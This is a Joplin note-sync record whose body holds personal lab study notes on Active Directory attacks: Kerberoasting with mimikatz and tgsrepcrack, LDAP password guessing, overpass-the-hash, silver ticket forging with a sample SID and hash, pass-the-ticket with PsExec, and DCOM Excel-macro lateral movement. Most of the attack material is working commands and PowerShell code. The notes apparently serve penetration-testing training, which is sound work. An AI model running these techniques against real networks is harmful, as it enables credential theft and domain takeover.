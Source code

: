 id: e24126ae97a046e48e6e01badfdce78b
parent_id: 
item_type: 1
item_id: 07865553b30a4727ac88b108b5e909ef
item_updated_time: 1660119299190
title_diff: "[{\"diffs\":[[1,\"AD Attacks\\\r\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":11}]"
body_diff: "[{\"diffs\":[[1,\"# Service Account Attacks\\\n\\\nWhen requesting the service ticket from DC, no checks are performed on user privileges to access service hosted by SPN.\\\n\\\nChecks only comes in when the connection is attempting to establish\\\n\\\n- If we know the SPN, we can request a service ticket for it from DC\\\n- Since it is our 'own ticket', we can extract from local memory and save it to disk\\\n\\\nOnce we know the SPN, we can use KerberosRequestorSecurityToken class to request the service ticket\\\n\\\n> Add-Type -AssemblyName System.IdentityModel\\\n\\\n> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'\\\n\\\nCalling the above command will generate the service ticket and store it in the local memory of the Win10 client.\\\n\\\n## Get the cached kerberos ticket\\\n\\\n> In mimikatz, kerberos::list; kerberos::list /export # to download to disk\\\n> \\\n> If on the machine, use klist\\\n\\\n![1b7e52ca98f75e117cd2e487882543cf.png](:/c273288a75a44e39901f7c7a2a5dff33)\\\n\\\n## Crack the hashes using the ticket and by brute force or guessing (Kerberoasting)\\\n\\\n![367e79dab9b577f2ec00eb46c9134e08.png](:/ac14701b32404969bfdd8d53a9539787)\\\n\\\n> python3 /usr/share/kerberoast/tgsrepcrack.py /usr/share/wordlists/rockyou.txt &lt;Hashfile&gt;\\\n\\\n![0d936d7ffcacd07e0364e17519bae856.png](:/ffb80db75a474daf8d4341907541ab71)\\\n\\\nWe can also use the hashcat or john to do the same thing\\\n\\\nThis technique is VERY POWERFUL if\\\n\\\n- Domain contains high-privilege service accounts with weak passwords (quite common)\\\n- (Group) Managed service accounts' Passwords are not randomly generated in high complexity (most cases on cloud instances these days)\\\n\\\n![cf1a0503d28dfc769f5521f7ab3b1398.png](:/25d9546d449c4223b2453bb8ea215c09)\\\n\\\n# Low and Slow Password Guessing\\\n\\\nFor scenarios where Caution on many failed attempts will block the account\\\n\\\nWill use LDAP and ADSI to perform the attack without triggering a account lockout\\\n\\\nDomain's account policy can be checked using net accounts\\\n\\\n![314c3a15a0499d844cf0e296dc958561.png](:/00025d3a270a4dcfb826455dd095d0b3)\\\n\\\nWe can use our powershell script to demonstrate the basic components.\\\n\\\nUse the function DirectoryEntry constructor to perform queries to the DC as any user that we know the login to\\\n\\\n```Powershell\\\n$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()\\\n$PDC = ($domainObj.PdcRoleOwner).Name\\\n\\\n$SearchString = \\\"LDAP://\\\"\\\n$SearchString += $PDC + \\\"/\\\"\\\n\\\n$DistinguishName = \\\"DC=$($domainObj.Name.Replace('.',',DC='))\\\"\\\n\\\n$SearchString += $DistinguishName\\\nNew-Object System.DirectoryServices.DirectoryEntry($Searchstring, \\\"username\\\", \\\"Qwerty09!\\\")\\\n```\\\n\\\n![985c4eba39ff324baaf6eea227a2d5d6.png](:/d8f92b6eaa154116bbcb776f5801a5e3)\\\n\\\nYou can look at Spray-Passwords.ps1 inside the downloads folder (or locate it )\\\n\\\n# Lateral Movement\\\n\\\nUsing only the user's password hash or kerberos ticket - For escalation\\\n\\\nPass-the-Hash - see pth-winexe\\\n\\\n## Overpass the hash\\\n\\\n\\\"Over\\\" abuse a  NTLM user hash to gain Kerberos TGT or service ticket, similar to pth-winexe\\\n\\\nIn mimikatz\\\n\\\n> sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:&lt;NTLMhash&gt; /run:Powershell.exe\\\n\\\nOnce we are in, list the kerberos tickets with klist\\\n\\\nIf no tickets are available, we can generate a TGT by authenticating to a network share on DC\\\n\\\n> net use \\\\\\\\\\\\dc01\\\n> \\\n> klist\\\n\\\n![30be3f0779d3569412dca5fc83ee6b85.png](:/16c8ba6b552d4c258c9a200d4a00557a)\\\n\\\nWith the Kerberos TGT, we can use any tools that rely on its auth.\\\n\\\n**Obtain Code Execution on the DC (using PsExec)**\\\n\\\n> ./PsExec.exe \\\\\\\\\\\\dc01 cmd.exe\\\n\\\n## Pass-The-Ticket\\\n\\\nTakes advantage of the TGS, as it may be exported and re-injected back elsewhere in the network and then used to auth a specific service.\\\n\\\nSuitable for cases where you do not have administrative accounts to execute the other methods.\\\n\\\n- Does not offer escalation; offer flexibilty to choose which machine to use the ticket from\\\n- If a service is registered with SPN and it is a local admin in any server, then use the previous methods\\\n\\\nUser and Group permissions in the service ticket are not verified by the application - app blindly trusts the integrity of the service ticket\\\n\\\n- Forge our own service ticket to access the target resource with any permissions we desire - **Silver Ticket**\\\n\\\n![b2722ba9be0c5bb4eb1a7e4a5d65dfd8.png](:/acc30ecf76ca497ca2426b9405549a62)\\\n\\\nWe can get the domain SID by using:\\\n\\\n> whoami /user\\\n\\\n![5d5e2a2710b9c078c4247c651997436b.png](:/bd0cf4f1c7e24611a040622ddf381854)\\\n\\\n![8faa77505f9635a0382d3e60d856198c.png](:/817109c8049a46b29aa916897651b50c)\\\n\\\nMethod to craft the ticket in Mimikatz\\\n\\\n> kerberos::purge\\\n> \\\n> kerberos::list # make sure it is empty\\\n> \\\n> kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-4038953314-3014849035-1274281563 /target:CorpWebServer.corp.com /service:HTTP /rc4:2892d26cdf84d7a70e2eb3b9f05c425e /ptt\\\n\\\n/rc4: the password hash of the iss_service service account\\\n\\\n![9fc60b320e5aa47a7e225ce1359d6855.png](:/c2469c7d959143ee983bd3c924f4c851)\\\n\\\nhttps://github.com/backlion/Offensive-Security-OSCP-Cheatsheets/blob/master/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets.md\\\n\\\nAs follow up steps, we should inject the ticket into the memory and obtain a shell in the server we want to move to\\\n\\\n> mimikatz # kerberos::ptt &lt;ticket\\\\_kirbi\\\\_file&gt;\\\n> \\\n> CMD # .\\\\\\\\PsExec.exe -accepteula \\\\\\\\\\\\labwws02.jurassic.park cmd\\\n\\\nhttps://book.hacktricks.xyz/windows/active-directory-methodology/silver-ticket\\\n\\\n## DCOM (Distributed Component Object Model)\\\n\\\n![eacbf526701e8e59c1c68f4135a16115.png](:/356f1d18b595411893837bd94518826a)\\\n\\\n## <ins>NOTE:</ins>Must install Microsoft Office to work\\\n\\\n![e14ca8cd90ebfe9df26a40ef243c7a40.png](:/0b09b2488a1847279bd93cf3e68d5a79)\\\n\\\n![2740720923bf93debf65acfab719f817.png](:/654a3d7ad75d42a7a27311a43ae3d8a5)\\\n\\\nThis error occurs because Excel.Application is instantiated through DCOM, which is done with SYSTEM account\\\n\\\nSYSTEM does not have a profile. To fix this problem, we can simply create the Desktop folder at C:\\\\\\\\Windows\\\\\\\\SysWOW64\\\\\\\\config\\\\\\\\systemprofile\\\n\\\nCreate the directory with the following PowerShell code:\\\n\\\n```\\\n$Path = \\\"\\\\\\\\192.168.1.110\\\\c$\\\\Windows\\\\sysWOW64\\\\config\\\\systemprofile\\\\Desktop\\\"\\\n$temp = [system.io.directory]::createDirectory($Path)\\\n\\\n# Calling the Open method again should now succeed. We can then call the Run method with the following script:\\\n\\\n$com = [activator]::CreateInstance([type]::GetTypeFromProgId(\\\"Excel.Application\\\",\\\"192.168.1.110\\\"))\\\n$LocalPath = \\\"C:\\\\\\\\Users\\\\\\\\jeff_admin.corp\\\\\\\\myexcel.xls\\\"\\\n$RemotePath = \\\"\\\\\\\\192.168.1.110\\\\c$\\\\myexcel.xls\\\"\\\n[System.IO.File]::Copy($LocalPath, $RemotePath, $True)\\\n$Path = \\\"\\\\\\\\192.168.1.110\\\\c$\\\\Windows\\\\sysWOW64\\\\config\\\\systemprofile\\\\Desktop\\\"\\\n$temp = [system.io.directory]::createDirectory($Path)\\\n$Workbook = $com.Workbooks.Open(\\\"C:\\\\myexcel.xls\\\")\\\n$com.Run(\\\"mymacro\\\")\\\n```\\\n\\\nThis code should open the Notepad application as a background process executing in a high integrity context on the remote machine\\\n\\\n![5307d353cd314b401df7b8194ae1ff6a.png](:/e601279c1971474a9fffec016c8c44b8)\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":6980}]"
metadata_diff: {"new":{"id":"07865553b30a4727ac88b108b5e909ef","parent_id":"ac0bd99a1a324cb6a297fd05a2b92039","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-08-10T08:15:50.426Z
created_time: 2022-08-10T08:15:50.426Z
type_: 13